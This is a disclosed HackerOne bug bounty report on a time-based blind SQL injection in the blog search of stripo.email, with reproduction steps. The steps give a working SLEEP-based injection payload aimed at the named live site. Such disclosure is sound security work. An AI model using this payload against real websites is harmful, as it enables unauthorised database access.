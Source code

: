 # stripo blog search  SQL Injection

## Report Details
- **Report ID**: 761382
- **URL**: https://hackerone.com/reports/761382
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2019-12-19T01:25:21.170Z
- **Disclosed**: 2020-01-30T11:50:16.629Z

## Reporter
- **Username**: bluebridsec
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: stripo

## Vulnerability Information
## Summary:

Sql injection of search parameters at blog search request

## Steps To Reproduce:

  1. request https://stripo.email/blog/search/
  2. input search `1' AND (SELECT 6268 FROM (SELECT(SLEEP(5)))ghXo) AND 'IKlK'='IKlK`
  3. See a very large response delay

## Supporting Material/References:
See attached screenshot

## Impact

Causes an attacker to obtain database information

## Attachments
- 2019-12-19_09-22-37______.png
- 2019-12-19_09-24-27______.png
